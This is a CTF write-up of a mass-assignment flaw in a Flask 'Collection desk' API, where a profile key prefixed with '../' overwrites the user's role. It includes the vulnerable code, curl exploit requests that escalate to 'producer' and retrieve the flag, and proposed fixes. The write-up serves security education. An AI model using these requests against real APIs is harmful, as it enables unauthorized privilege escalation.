

# BACKSTAGE LEDGER, Mass Assignment via a `../` Key That Escapes the Profile, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | BACKSTAGE LEDGER ("Collection desk" API, music-festival theme) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8340 (EC2) |
| **IP:Port** | `54.72.82.22:8340` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | `PATCH /api/profile` only lets a `profile` object through, but any key starting `../` is written **one level up** into the user record, so `{"profile":{"../role":"producer"}}` sets `user['role']='producer'`. Then `POST /api/settlement` (gated on `role=='producer'`) returns the flag. Same `X-Session` throughout. |
| **Honesty note** | OSINT-desk block. This is the "so much data I couldn't make sense of it" box from the earlier session; the leaked `service.py` made the mechanism obvious. |

---

## 1. The Short Version

Your session is a header, `X-Session`. `GET /api/profile` shows `{"role":"member","profile":{"theme":"night"}}`. `PATCH /api/profile` updates your profile. `POST /api/settlement` "closes the production account", but only if your `role` is `producer`. You start as `member`. So this is a privilege-escalation-via-mass-assignment puzzle: can I set `role` through the profile update?

The leaked logic shows the exact hole:

```python
if request.method=='PATCH':
  if set(d)-{'profile'}: return result(False)          # body may ONLY contain 'profile'
  for key,val in d.get('profile',{}).items():
   if key.startswith('../'): user[key[3:]]=val          # ../X writes user[X]  ← escape!
   else: user['profile'][key]=val
```

The body is restricted to a `profile` object, but inside it a key beginning `../` gets its prefix stripped and is written to the **top-level user dict** instead of the profile. So `"../role"` becomes `user["role"]`:

```bash
S="mysession"
curl -s -X PATCH "http://54.72.82.22:8340/api/profile" -H "X-Session: $S" \
  -H 'Content-Type: application/json' --data '{"profile":{"../role":"producer"}}'
# {"profile":{"theme":"night"},"role":"producer"}
curl -s -X POST "http://54.72.82.22:8340/api/settlement" -H "X-Session: $S"
# {"message":"safctf{414329f08fe10f2027b4afeb2e5bba9b}","ok":true}
```

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{414329f08fe10f2027b4afeb2e5bba9b}` | PATCH `{"profile":{"../role":"producer"}}` → settle |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Nested key with `../` escapes the allowed `profile` object into the user record | **Mass Assignment / key injection** (CWE-915) | `PATCH /api/profile` | High |
| 2 | Privilege (`role`) is a writable user field gating a sensitive action | Privilege escalation (CWE-269) | profile → settlement | High |
| 3 | Session is a bare client-supplied header (`X-Session`) | Weak session identity (CWE-384) | all endpoints | Medium |

---

## 3. Recon & Exploit

`X-Session` is just a header you choose, no auth, and the server keeps per-session state, so I pick one value and reuse it:

```bash
T=54.72.82.22:8340 ; S="S-demo"
curl -s "http://$T/api/profile" -H "X-Session: $S"
# {"profile":{"theme":"night"},"role":"member"}
```

The developer tried to lock PATCH down two ways: the body may only contain the key `profile` (`set(d)-{'profile'}` rejects anything else), and each inner key is written into `user['profile']`. The escape hatch is the `../` branch, presumably meant for some internal use, which strips `../` and writes to `user` directly. So a single nested key defeats both guards:

```bash
curl -s -X PATCH "http://$T/api/profile" -H "X-Session: $S" \
  -H 'Content-Type: application/json' --data '{"profile":{"../role":"producer"}}'
# {"profile":{"theme":"night"},"role":"producer"}     ← role escalated

curl -s -X POST "http://$T/api/settlement" -H "X-Session: $S"
# {"message":"safctf{414329f08fe10f2027b4afeb2e5bba9b}","ok":true}
```

The only operational catch is using the **same `X-Session`** on both requests so the escalated `role` persists into the settlement check.

---

## 4. Why It Worked & How I'd Fix It

- **Root cause:** the update merges attacker-controlled keys into a server object, and one key pattern (`../`) crosses the boundary from the "safe" sub-object (`profile`) into the privileged parent (`user`, which holds `role`). It's the data-structure cousin of path traversal: `../` escaping a container, just in a dict instead of a filesystem.
- **The fix:** never merge raw client keys into a server record. Allowlist the exact profile fields a user may set (`theme`, `display_name`, ...) and ignore everything else; never derive a key path from input. Keep authorization fields like `role` in a column the update code can't touch, and decide privilege server-side, not from a field the client can write. And make the session a signed/opaque token the server issues, not a header the client invents.

---

## 5. Timeline

- Source (from 8300) showed PATCH restricts the body to `profile` but has a `../`-prefixed escape into the user dict.
- PATCH `{"profile":{"../role":"producer"}}` with a chosen `X-Session` → `role` became `producer`.
- POST `/api/settlement` with the same session → flag.

---

## 6. References

- OWASP, **Mass Assignment Cheat Sheet**; CWE-915 (Improperly Controlled Modification of Object Attributes)
- CWE-269 (Improper Privilege Management), CWE-384 (Session Fixation)
- Related in this dojo: **stageworks** (self-asserted session tags) and **nightbus** (IDOR), all "the client set a field the server trusted."

**Lesson I'm keeping:** mass assignment isn't only about top-level fields. A nested key with a traversal prefix (`../role`) can jump the one object you were "allowed" to edit straight into the one you weren't.
